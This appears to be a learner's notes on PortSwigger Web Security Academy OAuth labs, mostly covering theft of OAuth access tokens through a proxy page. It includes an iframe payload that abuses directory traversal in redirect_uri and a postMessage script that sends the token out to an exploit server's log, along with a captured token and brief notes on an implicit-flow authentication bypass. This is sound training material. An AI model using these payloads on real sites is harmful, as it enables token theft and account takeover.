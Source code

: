
Go to exploit server and create an iframe in which the src attribute is the URL you just copied. Use directory traversal to change the redirect_uri so that it points to the comment form. The result should look something like this: 

From <https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page> 

```
<iframe src="https://oauth-0acc005e0468ae7982b93b95022200ad.oauth-server.net/auth?client_id=hco59og28kfxubr3a1wl9&redirect_uri=https://0a1300d00445aeac82eb3d5c004d00c3.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=1215408163&scope=openid%20profile%20email"></iframe>
```

```
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/759e7d6e-5527-4b2c-89d1-cde889f7ec0c)






Iframe work

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/888c0f2e-08a1-4a29-a74c-423b41ca3d7a)




Access token
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/d1014dfa-bf27-4038-ab4a-81c6eab7c9b2)



```
Pd4JDS4sjcBCNiufw8Lovz6SHMfP4MW8mmObSv8fgC2
```

From <https://exploit-0aa7009504e1ae4182e33c3d01bb00a7.exploit-server.net/log> 

API key
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/5e7eaea3-373c-4a26-a15f-ae1137a91cad)


**Authentication bypass via OAuth implicit flow**

Sign in with oauth
Notice that we get the following to authenticate 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/4471bb25-15bd-4c25-b542-4456f68f4d0b)


Send to repeater and change parameter to get another user authentication session. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/f54fea02-886c-4cf9-87d4-8fcaf8e476cc)
